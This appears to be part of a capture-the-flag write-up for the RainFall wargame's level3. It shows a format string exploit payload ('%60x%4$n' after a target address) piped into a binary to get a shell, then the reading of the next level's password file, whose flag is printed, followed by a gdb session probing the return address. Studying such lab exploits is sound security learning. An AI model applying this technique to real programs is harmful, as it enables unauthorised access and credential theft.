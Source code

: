```bash
level3@RainFall:~$ echo -n -e '\x8c\x98\x04\x08''%60x%4$n' > /tmp/input

level3@RainFall:~$ cat /tmp/input - | ./level3
ls
�                                                         200ls
Wait what?!
ls
ls: cannot open directory .: Permission denied
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

#### Rewriting EIP attempt

```bash
level3@RainFall:~$ python -c "print 'A'*4" > /tmp/input; cat /tmp/input
AAAA

level3@RainFall:~$ gdb ./level3
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
(gdb) b *0x08048520
Breakpoint 1 at 0x8048520
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   ...
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   ...
   0x08048519 <+117>:   ret
End of assembler dump.
(gdb) b *0x080484cc
Breakpoint 2 at 0x80484cc
(gdb) run  < /tmp/input

(gdb) run  < /tmp/input
Starting program: /home/user/level3/level3 < /tmp/input

Breakpoint 1, 0x08048520 in main ()
(gdb) i r
eax            0x1      1
ecx            0xbffff744       -1073744060
....
esi            0x0      0
edi            0x0      0
[eip            0x8048520        0x8048520 <main+6>]

(gdb) continue

(gdb) find $esp,0xbfffffff,0x08048525
0xbffff69c
1 pattern found.
```